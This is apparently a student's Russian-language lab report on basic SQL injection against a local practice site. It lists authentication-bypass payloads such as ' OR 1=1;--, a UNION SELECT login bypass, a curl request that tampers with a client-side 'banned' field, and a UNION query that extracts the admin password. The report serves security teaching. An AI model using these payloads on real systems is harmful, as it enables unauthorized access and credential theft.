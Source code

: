 # Лабораторная работа 3. Примитивные SQL инъекции.

## Задание 1
Запустим сайт из VSCode. Обойдем защиту двумя способами:

### С помощью кодирования кавычек:
	' OR 1=1;--

### Войдя под произвольным логином:
	' OR 1=1
	  UNION
	  SELECT 'xexe'
	  ORDER BY 1 DESC; --

## Задание 2
Обойдем клиентскую защиту с помощью ``curl``:

	curl 'http://localhost:8080/signin'
	--data-raw 'name=Daria&pass=qazwsx&banned=true'

## Задание 3
Обойдем защиту с помощью кодирования кавычки в альтернативный формат:
	' OR 1=1;--

## Задание 4
Обойдем защиту с помощью кодирования кавычки в альтернативный формат и получим пароль из БД:
	' UNION
	  SELECT null, (SELECT name || '--' || pass
FROM users WHERE name = %27admin%27--), NULL FROM dual --
